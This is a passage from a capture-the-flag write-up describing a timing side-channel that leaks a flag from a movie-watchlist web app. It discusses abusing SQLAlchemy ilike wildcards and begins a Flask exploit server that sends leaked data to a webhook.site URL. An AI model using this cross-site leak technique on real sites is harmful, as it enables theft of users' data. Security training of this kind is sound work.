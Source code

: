 and the not working guess (at least one request was < 50ms):
![bad guess](./img/bad_guess.png)


##### Oracle improvements
###### Stability
Some improvements to the stability of the oracle could have been to register lots of users and make all of them add the flag movie to their watchlist, (you were able to add banned movies to your watchlist), to increase the latency when the correct guess was done. Even though I tried to implement that, I didn't notice any difference in the time it took to load the page the first time, so I didn't use it in the final exploit.

###### Speed
To improve the speed of the oracle, I tried using a parallel approach, but the multiple requests made at the same time were unstabilizing the timing, thus making it unreliable.

###### Alphabet
An interesting approach I used was to use the  **\_** character in the alphabet as the wildcard character, since in the SQLAlchemy.ilike method it is interpreted as any character. In the reality my alphabet was shorter and I used the **\_** character as the wildcard character at the end to understand if the flag was finished or not.

#### Final exploit

0. Host the exploit using a python flask server and ngrok
```python
# server.py
from flask import Flask, request, render_template
import re
import sys
import time
from pwn import *
import socket

target_url = 'https://127.0.0.1:5000'
webhook_url = 'https://webhook.site/933c1987-bee7-4b20-a9d1-284f3fbd0a18'
port = 5000

app = Flask(__name__)

@app.route('/leak', methods=['GET', 'POST'])
def leak():
  return render_template('check_char.html', target_url=target_url, webhook_url=webhook_url)

@app.route("/sleep/<int:seconds>")
def sleep(seconds):
  # sleep
  time.sleep(seconds)
  return "Sleeped for {} seconds".format(seconds)

def start_server(port):
  # check if port is busy
  sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  result = sock.connect_ex(('',port))
  if result == 0:
    print(f"[!] Port {port} is busy. aborting")
    exit(0)
  sock.close()
```